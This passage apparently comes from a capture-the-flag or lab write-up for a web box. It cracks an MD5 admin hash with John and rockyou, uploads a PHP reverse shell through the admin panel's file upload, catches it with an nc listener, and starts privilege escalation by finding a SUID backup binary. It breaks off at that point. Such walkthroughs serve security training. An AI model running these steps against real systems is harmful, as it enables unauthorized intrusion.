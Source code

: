 Cracking the password hash:
```bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hash.txt
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Result**: `password` 

### Getting Shell Access

With admin credentials, we can access the admin panel at `/admin`.

Found file upload functionality. Testing for unrestricted file upload:
```bash
# Create PHP reverse shell
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
# Edit IP and PORT

# Upload file
curl -X POST -F "file=@shell.php" http://10.10.10.xxx/admin/upload.php --cookie "session=admin_token"
```

Start listener:
```bash
nc -lvnp 4444
```

Trigger shell:
```bash
curl http://10.10.10.xxx/uploads/shell.php
```

**We have a shell as www-data!**

---

## Privilege Escalation

### Enumeration

Checking for SUID binaries:
```bash
find / -perm -4000 -type f 2>/dev/null
```

**Interesting finding:**
```
/usr/bin/custom_backup
```

Analyzing the binary:
```bash
strings /usr/bin/custom_backup
```

Output shows:
```
/bin/tar -czf /tmp/backup.tar.gz /var/www/html
```
